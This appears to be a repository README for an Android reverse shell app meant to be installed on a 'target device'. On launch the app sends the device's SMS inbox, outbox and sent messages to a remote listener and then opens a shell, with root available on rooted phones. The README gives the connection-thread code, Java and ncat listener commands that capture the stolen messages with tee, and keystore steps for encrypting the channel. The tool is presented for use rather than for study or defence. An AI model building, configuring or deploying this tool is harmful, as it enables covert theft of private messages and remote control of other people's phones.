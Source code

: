 Android Reverse Shell
===================
Ian Cohee 
---------------------

A small, very basic reverse shell for the Android mobile operating system. The code can be compiled into an APK package, that must be installed
on the target device. The application will dump the SMS contents of the device inbox, outbox, and sent mail, then drop into the shell. The resulting shell will be unprivileged, unless the target phone is rooted, then the command "su" can be used. In that case, the user still needs to manually give the application permission to "su" to UID 0. 

Secured vs. Unsecured Shell
--------------------------
By default, the connection is made using SSL encryption, provided by the Listener's keystore. The Certificate for the listener's private key has been imported to the Android application's TrustStore, located in /res/raw/android.truststore.
If you want to create your own SSL keypair, you'll need to import the certificate manually.

Secure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "true");


Insecure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "false");

Listener (default: secured)
--------
I'm providing a Listener written in Java, that uses a KeyStore containing the private key that the Android Reverse Shell will accept. The BouncyCastle jar needs to be in the classpath of the listener, as well as two command-line arguments: 1) Path to the keystore (also supplied in this repository, under 'Crypto') and 2) the port to listen on (7777 by default).

	java -classpath /path/to/bcprov-jdk15on-146.jar: Listener /path/to/javaserver.keystore 7777

Listener (unsecured)
--------
Still working on that (I'll have it when I get SSL or Symmetric key encryption added) in the mean time, a simple netcat-like listener works. I prefer to use Ncat, of the Nmap project. Since the application dumps SMS, I like to pipe them to `tee` to capture the results. The Listener will have logging, when I get to it. 

    ncat 192.168.2.3 7777 | tee server.out

Mini-tutorials
==============

Generating a KeyStore
-----------------------
    keytool -genkey -keystore server.keystore -alias android -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Getting Android to accpet the KeyStore (TrustStore)
---------------------------------------------------
Step 1: Export public key from KeyStore into a `.crt` file. In this case the key's alias is 'android' and the resulting certificate will be 'android.crt'

	keytool -export -keystore server.keystore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Step 2: Import `.crt` in to the Android's TrustStore, under the alias 'android'.

	keytool -import -keystore android.truststore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider	

Generating X509 Certificate (deprecated)
--------------------------------------
This file will contain the both the private key, and the certificate into a file called `cert.pem`. It might be possible to use `ncat` with this cert, but I had issues keeping the connection alive using `ncat` as the listener. The preferred method should be to use the AndroidRSListener, written in Java. 
    
    openssl req -newkey rsa:2048 -nodes -days 3650 -x509 -keyout cert.pem -out cert.pem

Then extract the everything between the `-----BEGIN_CERTIFICATE-----` and `-----END_CERTIFICATE-----` (inclusively) into a new file. Now This file needs to be added to the trust store that the application uses. 

Importing Certificate into TrustStore
-------------------------------------
    keytool -importcert -trustcacerts -keystore android.truststore -file cert.pem -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider 

Adding Bouncy Castle to java.security File, statically
------------------------------------------------------
Locate the correct security file, mine was a symlink in /usr

    locate java.security

Add an entry, where X is the next ordinal number to the java.security file
    
    security.provider.X=org.bouncycastle.jce.provider.BouncyCastleProvider
